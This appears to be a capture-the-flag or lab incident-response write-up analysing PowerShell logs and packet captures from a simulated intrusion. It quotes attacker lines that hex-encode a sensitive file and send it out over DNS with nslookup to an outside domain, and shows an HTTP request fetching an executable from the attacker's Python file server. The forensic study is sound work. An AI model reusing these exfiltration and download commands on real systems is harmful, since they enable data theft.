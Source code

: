 
**What is the encoding used during the exfiltration attempt of the sensitive file?**

This line in the logs is encoding the file in hex:

`"$hex = ($bytes|ForEach-Object ToString X2) -join '';;pwd"`

---

**What is the tool used for exfiltration?**

The actual exfiltration takes place using **nslookup** to exfiltrate over DNS queries.

`nslookup -q=A \"$line.bpakcaging.xyz\" $destination;} echo \"Done\";;pwd"`

## Network Traffic Analysis - They got us. Call the bank immediately!

Based on the PowerShell logs investigation, we have seen the full impact of the attack:

- The threat actor was able to read and exfiltrate two potentially sensitive files.
- The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.

Investigation Guide  

Finally, we can complete the investigation by understanding the network traffic caused by the attack:

- Utilise the domains and ports discovered from the previous task.
- All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
- Follow the streams of the notable commands discovered from PowerShell logs.
- Based on the PowerShell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.

#### Questions

**What software is used by the attacker to host its presumed file/payload server?**

This returns requests for "sb.exe", "sq3.exe" and "update". Following the HTTP stream shows in the response "Server: SimpleHTTP/0.6 Python/3.10.7", **python** being the answer to this question.

`http.host == "files.bpakcaging.xyz"`

```
GET /sq3.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.18362.145
Host: files.bpakcaging.xyz
Connection: Keep-Alive

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.7
Date: Fri, 13 Jan 2023 17:23:38 GMT
Content-type: application/x-msdos-program
Content-Length: 1123840
Last-Modified: Wed, 28 Dec 2022 14:28:28 GMT
```

---